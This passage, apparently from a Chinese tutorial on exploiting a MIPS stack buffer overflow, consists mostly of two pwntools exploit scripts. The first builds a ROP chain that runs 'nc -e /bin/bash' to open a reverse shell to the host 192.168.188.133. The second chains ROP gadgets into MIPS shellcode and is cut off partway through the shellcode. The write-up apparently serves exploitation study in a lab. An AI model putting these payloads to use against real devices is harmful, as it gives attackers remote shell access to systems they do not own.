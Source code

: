 至于栈溢出的偏移，仍然用`cyclic`测一下就行，不再多说了。

![image-20220427175631440](https://s2.loli.net/2022/04/28/ap1sIluGt5KBNQR.png)

![image-20220427172444594](https://s2.loli.net/2022/04/28/KxYqMT5E8FakdLB.png)

#### **1. 纯ROP链**

```
from pwn import *
context(os = 'linux', arch = 'mips', log_level = 'debug')
 
cmd = b'nc -e /bin/bash 192.168.188.133 8888'
 
libc_base = 0x77fe2000
 
payload = b'a'*0x3cd
payload += p32(libc_base + 0x53200 - 1) # s0  system_addr - 1
payload += p32(libc_base + 0x169C4) # s1  addiu $s2, $sp, 0x18 (=> jalr $s0)
payload += b'a'*(4*7)
payload += p32(libc_base + 0x32A98) # ra  addiu $s0, 1 (=> jalr $s1)
payload += b'a'*0x18
payload += cmd
 
fd = open("payload", "wb")
fd.write(payload)
fd.close()
```

#### **2. ROP + shellcode**

```
from pwn import *
context(os = 'linux', arch = 'mips', log_level = 'debug')
 
libc_base = 0x77f34000
 
payload = b'a'*0x3cd
payload += b'a'*4
payload += p32(libc_base + 0x436D0) # s1  move $t9, $s3 (=> lw... => jalr $t9)
payload += b'a'*4
payload += p32(libc_base + 0x56BD0) # s3  sleep
payload += b'a'*(4*5)
payload += p32(libc_base + 0x57E50) # ra  li $a0, 1 (=> jalr $s1)
 
payload += b'a'*0x18
payload += b'a'*(4*4)
payload += p32(libc_base + 0x37E6C) # s4  move  $t9, $a1 (=> jalr $t9)
payload += p32(libc_base + 0x3B974) # ra  addiu $a1, $sp, 0x18 (=> jalr $s4)
 
shellcode = asm('''
    slti $a0, $zero, 0xFFFF
    li $v0, 4006
    syscall 0x42424
 
    slti $a0, $zero, 0x1111
    li $v0, 4006
    syscall 0x42424
 
    li $t4, 0xFFFFFFFD
    not $a0, $t4
    li $v0, 4006
    syscall 0x42424
 
    li $t4, 0xFFFFFFFD
```